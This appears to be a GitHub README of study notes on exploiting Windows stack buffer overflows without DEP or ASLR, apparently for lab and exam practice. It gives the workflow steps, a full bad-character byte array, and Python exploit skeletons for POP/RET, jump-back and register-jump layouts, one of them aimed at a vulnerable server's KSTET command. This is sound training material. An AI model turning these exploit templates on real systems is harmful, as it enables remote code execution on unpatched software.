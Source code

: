 # Stack Buffer Overflow (no DEP, no ASLR)

## Step
1. Find initial crash
2. Find offset with !py mona pc XXX 
3. Find badchar
		bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
		bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
		bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
		bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
		bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
		bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
		bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
		bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
4. Exploit:
4.1 Is there a lot of space? !py mona jmp -r esp -cpb '\x00' 
4.2 There isn't space? Try with:
4.2.1  POP 32; RET and you will point to the C's
```py
httpMethod = b"C" * 8 +  b" /" 
inputBuffer = b"A" * 253 
inputBuffer += pack("<I",0x00418674) #00418674 pop eax; ret
httpEndRequest = b"\r\n\r\n" ![immagine](https://user-images.githubusercontent.com/59916156/199558164-eb4e1a1f-33f1-4cae-8cf0-a94517a1d351.png)
```
4.2.2 Jump back
```py
buffer = b"\x90"*1672
sub_esp = b"\x83\xEC\x64\x90" * 5 #ESP - 500, (sub esp 100*5)
buffer += sub_esp
buffer += shellcode
buffer += b"\x90"*(388-len(shellcode))
buffer += pack("<I", 0x1480113d) # : jmp esp 1480113d
buffer += b"\x90"*3
buffer += b"\xe9\x07\xfe\xff\xff" #jmp -500 E907FEFFFF
buffer += b"D"* (total - len(buffer))
```
4.2.3 Look to the other registers. There are other near to the payload?
```py
VULNSRVR_CMD = b"KSTET "  # change me
size = 132  # change me

stage_one  = b"\x83\xc0\x06"   # add eax,byte +0x6
stage_one += b"\xff\xe0"  # jmp eax

payload = VULNSRVR_CMD
payload += b"A"*70
payload += struct.pack("<I",0x62501203) #jmp esp 62501203
payload += b"\x90" * 4
payload += stage_one
payload += b"C"*(size-len(payload))
```

## Resources
1. https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
2. https://epi052.gitlab.io/notes-to-self/blog/2020-05-13-osce-exam-practice-part-one/
3. https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
4. https://www.bordergate.co.uk/dealing-with-small-buffer-space/
